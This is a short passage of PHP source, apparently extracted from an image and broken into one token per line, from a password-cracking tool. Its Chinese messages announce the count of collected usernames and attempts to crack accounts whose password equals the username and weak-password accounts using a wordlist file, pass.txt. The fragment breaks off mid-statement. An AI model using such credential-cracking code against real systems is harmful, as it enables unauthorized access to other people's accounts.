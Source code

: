  
echo

"共获取用户"

.

count

(

$namearray

).

"名用户\n"

;

 
echo

"正在破解用户名与密码相同的用户：\n"

;

 
$crackname

= crackpassword(

$namearray

,

"same"

);

 
$passwords

= file(

"pass.txt"

);

 
echo

"正在破解弱口令用户：\n"

;

 
if

(

$crackname

) {

    

$namearray
